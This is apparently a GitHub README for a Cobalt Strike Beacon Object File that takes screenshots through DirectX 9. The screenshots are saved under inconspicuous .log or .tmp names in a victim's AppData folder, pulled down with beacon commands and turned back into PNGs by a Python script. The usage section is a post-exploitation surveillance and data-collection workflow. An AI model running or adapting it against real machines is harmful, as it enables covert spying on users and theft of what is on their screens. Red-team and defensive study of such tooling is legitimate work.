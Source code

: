 # DirectX9-Screenshot-BOF
![memez](/img/8gku6o.jpg)
## Overview

Capture Screenshots with DirectX 9   
TBH I haven't tested this too much just seemed like a cool idea

## Notes

- Export screenshots to the **current working directory** as `.log` files
- Output format: `<width>oo<height>.log`
- Reconstruct `.log` files into PNG format locally
- Libraries Used - MSVCRT, D3D9

- Just swap the output file to .tmp in SavePixelsToLogFile and recompile if preferred 

### BOF Execution

Ensure you are in the directory you would like the screenshot exported as. 
```
beacon> cd C:\Users\Victim\AppData\
beacon> screenshot-dx
beacon> download <filename>
```

### Example

![Cobalt Strike Example](/img/cobalt-test.png)

![AutoDownload Example](/img/auto-download.png)
## Image Reconstruction

To reconstruct the image with this script, follow these steps:

1. Install the required packages:
    ```bash
    pip3 install Pillow
    ```

2. Run the script with the desired log file path and output file path:
    ```bash
    python3 assemble.py <logfile> output.png
    ```

### Contributers
Big thanks to ma boy Kyle started this
@kyle41111
